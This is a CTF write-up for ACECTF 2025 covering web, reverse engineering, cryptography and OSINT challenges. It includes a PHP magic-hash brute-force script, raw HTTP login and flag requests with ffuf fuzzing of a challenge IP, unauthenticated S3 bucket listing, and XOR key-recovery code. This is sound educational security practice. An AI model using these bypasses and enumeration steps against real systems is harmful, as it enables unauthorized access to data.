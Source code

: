 ```yaml
---
title: "ACECTF"
date: 2025-02-27
draft: false
description: "Acectf"
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

<h2>🏆 185/661 -- 2200 points</h2>

| <span class="text-primary-400">**Challenge**</span> | <span class="text-primary-400">**Category**</span> | <span class="text-primary-400">**Value**</span> | <span class="text-primary-400">**Time**</span> |
| --- | --- | --- | --- |
| The Chemistry Of Code | Reverse | 200 | February 27th, 7:37:22 PM |
| Flag-Fetcher | Web Exploitation | 200 | February 27th, 7:13:35 PM |
| Buried Deep | Web Exploitation | 100 | February 27th, 7:09:12 PM |
| Custom Encoding Scheme | Cryptography | 200 | February 27th, 5:46:28 PM |
| Super Secure Encryption | Cryptography | 100 | February 27th, 3:38:49 PM |
| The Mysterious Building | OSINT | 300 | February 27th, 12:33:52 PM |
| Fall of 2022 | OSINT | 100 | February 27th, 11:45:02 AM |
| Significance of Reversing | Reverse | 200 | February 27th, 11:35:15 AM |
| Bucket List | Web Exploitation | 300 | February 27th, 11:06:05 AM |
| Token of Trust | Web Exploitation | 200 | February 27th, 10:47:37 AM |
| Webrypto | Web Exploitation | 200 | February 27th, 10:10:24 AM |


## <span class="text-primary-400">Writeup </span>/ <span class="text-primary-400">Notes</span>

---

### Web (<span class="text-primary-400">3</span>/<span class="text-primary-400">3</span>)

#### Webcrypto

<details>

```php
<?php
include('flag.php');
highlight_file(__FILE__);

// Check if parameters 'tom' and 'jerry' are not equal
if ($_GET['tom'] != $_GET['jerry']) {
    echo "<br>Parameter 1 Met!<br>";

        if (md5('ACECTF' . $_GET['tom']) == md5('ACECTF' . $_GET['jerry'])) {
        echo $FLAG;  // If the condition is true, print the flag
    }
}
?>
```

We have to find 2 magic hashes (`starting with 0e or 00e`) that have the structure:

```SH
md5('ACECTF'+'RANDOM_1') == md5('ACECTF'+'RANDOM_2')
RANDOM_1 != RANDOM_2
```

I quickly asked claude to generate me a python script that does it *fast*:

<details>

```py
import hashlib
import string
import time
import itertools
import re
import multiprocessing as mp
from tqdm import tqdm

def md5_hash(input_str):
    """Calculate MD5 hash of a string"""
    return hashlib.md5(input_str.encode('utf-8')).hexdigest()

def is_magic_hash(hash_str):
    """Check if a hash starts with '0e' or multiple zeros followed by 'e', then all digits"""
    return bool(re.match(r'^0+e\d+$', hash_str))

def find_magic_hashes(prefix, max_length=5, num_required=2):
    """Find strings that produce magic hashes when appended to the prefix"""
    results = []
    total_attempts = 0
    charset = string.ascii_letters + string.digits
    start_time = time.time()

    print(f"Searching for magic hashes with prefix '{prefix}'...")

    # Process characters in batches for each length
    for length in range(1, max_length + 1):
        if len(results) >= num_required:
            break

        print(f"Trying length {length}...")

        # Generate all possible combinations for this length
        for chars in tqdm(itertools.product(charset, repeat=length),
                          total=len(charset)**length,
                          desc=f"Length {length}",
                          unit="comb"):
            suffix = ''.join(chars)
            test_str = prefix + suffix
            hash_result = md5_hash(test_str)
            total_attempts += 1

            if is_magic_hash(hash_result):
                results.append((test_str, hash_result))
                print(f"\nFound magic hash #{len(results)}: {test_str} -> {hash_result}")

                if len(results) >= num_required:
                    break

        # Show progress after each length
        elapsed = time.time() - start_time
        rate = total_attempts / elapsed if elapsed > 0 else 0
        print(f"Progress: {total_attempts:,} attempts in {elapsed:.2f} seconds ({rate:.1f} hashes/sec)")

    # Show summary
    elapsed = time.time() - start_time
    print(f"\nSearch completed!")
    print(f"Total attempts: {total_attempts:,}")
    print(f"Total time: {elapsed:.2f} seconds")
    print(f"Average speed: {total_attempts / elapsed:.1f} hashes/sec")

    if results:
        print("\nFound magic hashes:")
        for i, (input_str, hash_str) in enumerate(results, 1):
            print(f"{i}. Input: {input_str}")
            print(f"   Hash: {hash_str}")

        if len(results) >= 2:
            print("\nDemonstrating PHP type juggling with these hashes:")
            print("In PHP, these would be considered equal with loose comparison (==)")
            print(f"'{results[0][1]}' == '{results[1][1]}' would return true")
    else:
        print("\nNo magic hashes found. Try increasing max_length.")

    return results

def process_chunk(args):
    """Process a chunk of combinations for parallel execution"""
    prefix, charset, length, chunk_start, chunk_size = args
    results = []
    total = 0

    # Get the specific combinations for this chunk
    combinations = itertools.islice(itertools.product(charset, repeat=length),
                                   chunk_start, chunk_start + chunk_size)

    for chars in combinations:
        suffix = ''.join(chars)
        test_str = prefix + suffix
        hash_result = md5_hash(test_str)
        total += 1

        if is_magic_hash(hash_result):
            results.append((test_str, hash_result))

    return results, total

def find_magic_hashes_parallel(prefix, max_length=5, num_required=2, num_processes=None):
    """Find magic hashes using parallel processing"""
    if num_processes is None:
        num_processes = mp.cpu_count()

    results = []
    total_attempts = 0
    charset = string.ascii_letters + string.digits
    start_time = time.time()

    print(f"Searching for magic hashes with prefix '{prefix}' using {num_processes} processes...")

    for length in range(1, max_length + 1):
        if len(results) >= num_required:
            break

        print(f"Trying length {length}...")

        # Calculate total combinations for this length
        total_combinations = len(charset) ** length

        # Divide work into chunks
        chunk_size = max(1000, total_combinations // (num_processes * 10))
        num_chunks = (total_combinations + chunk_size - 1) // chunk_size

        # Prepare arguments for each chunk
        args_list = [
            (prefix, charset, length, i * chunk_size, min(chunk_size, total_combinations - i * chunk_size))
            for i in range(num_chunks)
        ]

        # Process chunks in parallel
        with mp.Pool(processes=num_processes) as pool:
            with tqdm(total=total_combinations, desc=f"Length {length}", unit="comb") as pbar:
                for chunk_results, chunk_attempts in pool.imap_unordered(process_chunk, args_list):
                    total_attempts += chunk_attempts
                    pbar.update(chunk_attempts)

                    if chunk_results:
                        results.extend(chunk_results)
                        print(f"\nFound magic hash #{len(results)}: {chunk_results[0][0]} -> {chunk_results[0][1]}")

                    if len(results) >= num_required:
                        pool.terminate()
                        break

        # Show progress after each length
        elapsed = time.time() - start_time
        rate = total_attempts / elapsed if elapsed > 0 else 0
        print(f"Progress: {total_attempts:,} attempts in {elapsed:.2f} seconds ({rate:.1f} hashes/sec)")

        if len(results) >= num_required:
            break

    # Show summary
    elapsed = time.time() - start_time
    print(f"\nSearch completed!")
    print(f"Total attempts: {total_attempts:,}")
    print(f"Total time: {elapsed:.2f} seconds")
    print(f"Average speed: {total_attempts / elapsed:.1f} hashes/sec")

    if results:
        print("\nFound magic hashes:")
        for i, (input_str, hash_str) in enumerate(results, 1):
            print(f"{i}. Input: {input_str}")
            print(f"   Hash: {hash_str}")

        if len(results) >= 2:
            print("\nDemonstrating PHP type juggling with these hashes:")
            print("In PHP, these would be considered equal with loose comparison (==)")
            print(f"'{results[0][1]}' == '{results[1][1]}' would return true")
    else:
        print("\nNo magic hashes found. Try increasing max_length.")

    return results

if __name__ == "__main__":
    prefix = "ACECTF"
    # Choose between single-threaded or parallel version
    # For shorter combinations, single-threaded might be faster due to overhead
    # For longer combinations, parallel will be significantly faster

    # Uncomment only one of these:
    # results = find_magic_hashes(prefix, max_length=5, num_required=2)
    results = find_magic_hashes_parallel(prefix, max_length=5, num_required=2)
```
</details>

It gave me `mP6Ra` `QHUsg` and the flag after using these for `?tom=mP6Ra&jerry=QHUsg` `ACECTF{70m_4nd_j3rry_4r3_4ll135}`

</details>




#### Token of Trust
<details>

```
Welcome to the main page!
To log in, visit /login. But remember, POST requests are my love language. 🧡

PS: Don't forget to set your headers for JSON, or I'll just ignore you. 🙃
```

> POST requests are my love language

> Set your headers for JSON

```JSON
# /login
Oops! Wrong approach.
You can't just waltz in here without a proper POST request.

Try sending a JSON payload like this: {"user":"ace","pass":"ctf"}.

Hint: I only care about your request format, not your credentials. 😉
```

> `{"user":"ace","pass":"ctf"}`

> I only care about your request format, not your credentials

```HTTP
POST /login HTTP/1.1
Host: 34.131.133.224:9999
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Connection: keep-alive
Content-Type: application/json
Content-Length: 27

{"user":"ace","pass":"ctf"}
```

```HTTP
HTTP/1.1 200 OK
X-Powered-By: Express

{
    "token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"
}
```

```JSON
Headers = {
  "alg": "HS256",
  "typ": "JWT"
}

Payload = {
  "user": "guest"
}

Signature = "JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"
```

```BASH
❯ ffuf -u http://34.131.133.224:9999/FUZZ -w /usr/share/seclists/bbFuzzing/top.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://34.131.133.224:9999/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/bbFuzzing/top.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

robots.txt              [Status: 200, Size: 56, Words: 9, Lines: 1, Duration: 268ms]
:: Progress: [1423/1423] :: Job [1/1] :: 147 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

```
Disallow: /flag (But hey, who listens to robots anyway?)
```

```
POST /flag HTTP/1.1
Host: 34.131.133.224:9999
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko)
Connection: keep-alive
Content-Type: application/json
Content-Length: 115

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}
```

`Sorry, you're not the admin. No flag for you! 😝`

{{< figure src="/images/ctfs/ACECTF/token_of_trust.png" alt="solution">}}

</details>


#### Bucket List
<details>

> [This](https://www.intigriti.com/researchers/blog/hacking-tools/hacking-misconfigured-aws-s3-buckets-a-complete-guide) link from integriti actually helped me a lot since I never actually attacked S3 Buckets before.

{{< figure src="/images/ctfs/ACECTF/s3_bucket.png" alt="solution">}}

Enumerating the bucket for misconfigured permissions:

```BASH
❯ aws s3 ls s3://opening-account-acectf --no-sign-request
                           PRE cry-for-me/
                           PRE fun/
                           PRE l33t-h4x0r/
                           PRE not-the-galf/
                           PRE open-hearts/
                           PRE opening-night/
                           PRE sao-paulo/
                           PRE wake-me-up/
```

Just some more nice cat images:

```
❯ aws s3 ls s3://opening-account-acectf/cry-for-me/bucket/ --no-sign-request
2025-02-21 16:53:21        112 001.png
2025-02-21 16:53:21       4667 008.jpeg
2025-02-21 16:53:21       5514 020.jpeg
2025-02-21 16:53:21        425 025.png
2025-02-21 16:53:22       5736 081.jpeg
```

{{< highlight sh "linenos=true,hl_lines=7" >}}
❯ aws s3 ls s3://opening-account-acectf/cry-for-me/acectf/ --no-sign-request
2025-02-21 16:53:00       5033 002.jpeg
2025-02-21 16:53:00        346 042.png
2025-02-21 16:53:01        785 046.png
2025-02-21 16:53:01        218 049.png
2025-02-21 16:53:01       1880 057.png
2025-02-21 17:03:50         44 secret.txt
{{< /highlight >}}

The secret held a base64 string which was simply the flag:

```
❯ echo QUNFQ1RGezdoM180dzVfMTVfbTE1YzBuZjE2dXIzZH0= | base64 -d
```

`ACECTF{7h3_4w5_15_m15c0nf16ur3d}`

</details>

#### Buried Deep
<details>

After running content discovery via Burpsuite we find the first part of the flag:

{{< figure src="/images/ctfs/ACECTF/burried.png" alt="PDF Stream">}}

`ACECTF{1nf1l7r471ng_7h3_5y573m_`

In the `secret_path` endpoint we convert the morse code to UTF8:
`15_345y_wh3n_y0u_kn0w_wh3r3_`

And lastly on `style.css` we convert from `ROT`
`7h3_53cr3t5_4r3_bur13d}`

`ACECTF{1nf1l7r471ng_7h3_5y573m_15_345y_wh3n_y0u_kn0w_wh3r3_7h3_53cr3t5_4r3_bur13d}`

</details>

#### Flag Fetcher
<details>

Checking the JS fetching code we can find the flag within the array
```JS
const i = Pc(),
    s = [
      "/a",
      "/c",
      "/e",
    ...
```

`ACECTF{r3d1r3ct10n}`
</details>

---

### Reverse
#### Significance of Reversing
<details>

We got a `.png` file which in the hex editor did not reveal any interesting information straight away. When inspecting the strings of the file, we can see that all the strings are litteraly "reversed".

```
~/Downloads
❯ strings Reverseme.png
tnemmoc.
ssb.
atad.
tlp.tog.
cimanyd.
yarra_inif.
yarra_tini.
...
```

Also when inspecting the end of the file in the hex editor we can see `...FLE.`. When "reversing" we can see that this spells `ELF` which is an executable file in linux. So seemingly we have to just reverse this whole `png` file and we will receive an `ELF` executable. I asked claude to quickly generate a python script that does this.

```PYTHOn
def reverse_bytes(input_path, output_path):
    """
    Reverses the order of bytes in a file

    Args:
        input_path (str): Path to the input file
        output_path (str): Path for the output file
    """
    # Read the input file in binary mode
    with open(input_path, 'rb') as input_file:
        data = input_file.read()

    # Reverse the bytes
    reversed_data = data[::-1]

    # Write the reversed data to the output file
    with open(output_path, 'wb') as output_file:
        output_file.write(reversed_data)

    print(f"File reversed and saved to {output_path}")

reverse_bytes('Reverseme.png', 'reversed')
```

```BASH
~/Downloads [🐍 v3.13.1]
❯ chmod +x reverse

~/Downloads [🐍 v3.13.1]
❯ ./reverse
```

`ACECTF{w3_74lk_4b0u7_r3v3r53}`

</details>

#### The Chemistry
<details>

When checking the main file we can see the following interesting params:

```RUST
const FERROUS_OXIDE_USERNAME: &str = "AdminFeroxide";
const ANIONIC_PASSWORD: &str = "NjQzMzcyNzUzNTM3MzE2Njc5MzE2ZTM2";
const ALKALINE_SECRET: &str = "4143454354467B34707072336E373163335F3634322C28010D3461302C392E";
```

When checking the code further it asks for a username and password, where the username can already be seen in the above values. The password was encoded uses base64, so we can just decode it to `643372753537316679316e36`. This looks like ASCII values so lets convert it into a string `d3ru571fy1n6`.

With this we can run the program and it will automatically extract the flag `ACECTF{4ppr3n71c3_w4l73r_wh1t3}`.

```RUST
fn reaction_chamber() {
    ionic_bond("AdminFeroxide", "d3ru571fy1n6");
}
```

</details>

---


### Crypto
#### Super Secure Encryption

<details>

We get 2 seperate text messages 1 beeing the encrypted flag and one being a "test" message. Since the test message was also encrypted using the same `k`, we can simply `XOR` the contents with the encrypted cyphertext and retreive the original `k`. We can then use use `k` to decrypt the actual flag.

<details>

```PY
import binascii

# Known plaintext and ciphertexts
plaintext = b"This is just a test message and can totally be ignored."
test_ciphertext = "d71f4a2fd1f9362c21ad33c7735251d0a671185a1b90ecba27713d350611eb8179ec67ca7052aa8bad60466b83041e6c02dbfee738c2a3"
flag_ciphertext = "c234661fa5d63e627bef28823d052e95f65d59491580edfa1927364a5017be9445fa39986859a3"

# Convert to bytes
test_cipher_bytes = bytes.fromhex(test_ciphertext)
flag_cipher_bytes = bytes.fromhex(flag_ciphertext)

# Extract keystream: keystream = ciphertext XOR plaintext
keystream = b""
for i in range(len(plaintext)):
    keystream += bytes([test_cipher_bytes[i] ^ plaintext[i]])

# Decrypt flag using keystream
flag = b""
for i in range(len(flag_cipher_bytes)):
    flag += bytes([flag_cipher_bytes[i] ^ keystream[i]])

print("Recovered flag:", flag.decode())
```

</details>

`ACECTF{n07h1n6_15_53cur3_1n_7h15_w0rld}`
</details>

#### Custom Encoding Scheme
<details>

```PYTHON
def encode(message, key):
    valid_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

    to_solve = []

    if key is not None and len(key) != 168:
        raise ValueError("Invalid Input")

    # Go in chunks of 4 for the whole key
    # Key is 128 so we have 32 chunks of 4
    if key is not None:
        key_chunks = [key[i:i + 4] for i in range(0, len(key), 4)]

    for index, m in enumerate(message):
        bin_value_of_order_m = f"{ord(m):08b}"

        if index < 42 and key is not None:
            bits_0_to_6 = bin_value_of_order_m[:6]
            bits_6_to_8 = bin_value_of_order_m[6:] + key_chunks[index]

            int_bits_0_to_6 = int(bits_0_to_6, 2)
            int_bits_6_to_8 = int(bits_6_to_8, 2)

            encoding_via_bit_sites = valid_chars[int_bits_0_to_6] + valid_chars[int_bits_6_to_8]
        else:
            bits_0_to_6 = bin_value_of_order_m[:6]
            bits_6_to_8 = bin_value_of_order_m[6:]

            int_bits_0_to_6 = int(bits_0_to_6, 2)
            int_bits_6_to_8 = int(bits_6_to_8, 2)

            encoding_via_bit_sites = valid_chars[int_bits_0_to_6] + valid_chars[int_bits_6_to_8]

        to_solve.append(encoding_via_bit_sites)
    return to_solve

m = "I TOLD YOU THAT BASE64 DECODING IS NO GOOD"
k = "000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000"
key_chunks = [k[i:i + 4] for i in range(0, len(k), 4)]

enc_flag = []
with open("output.txt", "r") as f:
    for line in f:
        enc_flag.append(line.strip())

to_solve = encode(message=m, key=k)

print("What it is:\t\t\t", to_solve)
print("What it should be:\t", enc_flag)
print("Key chunks:\t\t\t", key_chunks)

encoding_key = []
for index, chunk in enumerate(key_chunks):
    for i in range(0, 16):
        key_chunks[index] = f"{i:04b}"
        result = encode(m, "".join(key_chunks))
        if result[index] == enc_flag[index]:
            print(f"\nKey for chunk {index} is {i:04b}")
            encoding_key.append(f"{i:04b}")
            continue

    print("\nCurrent Key:", encoding_key)

print("Final key:", "".join(encoding_key))

flag = ""
binary_string = ''.join(encoding_key)

for i in range(0, len(binary_string), 8):
    byte = binary_string[i:i+8]
    flag += chr(int(byte, 2))

print(flag)
```

`ACECTF{7h47_w45_c00l}`
</details>


---

### OSINT
#### Fall of 2022
<details>

When reading the challange, this got my attention: `[..] It seemed like the perfect time to relax and check my phone for her txts.` Since it was an OSINT challange I was pretty sure that this was reffering to DNS `TXT` records so I quickly checked via `https://dnsdumpster.com/` and indeed there was the flag `"ACECTF{y0u_g07_7h3_73x7}"`.

</details>

#### The Mysterious Building
<details>

When inserting the image in Google reverse image search we can find that the tower shown links to an Wikipedia [article](https://de.wikipedia.org/wiki/Fernsehturm_Pitampura#/media/Datei:Pitampura_TV_Tower,_Delhi,_India.jpg). From the surroundings of our image we can also assume that this correlates with the country of `India`.

When checking the possible locations on the map, we can see that only 2 the left and bottom locations are possible standingpoints.

{{< figure src="/images/ctfs/ACECTF/map.png" alt="Map">}}

After checking both the bottom one seemed promissing and I just jumped into streetview where I was placed directly at the location from the Image.

{{< figure src="/images/ctfs/ACECTF/mistery_building.png" alt="Location">}}

{{< figure src="/images/ctfs/ACECTF/pp_trade.png" alt="Solution">}}

`ACECTF{pp_trade_center}`

</details>



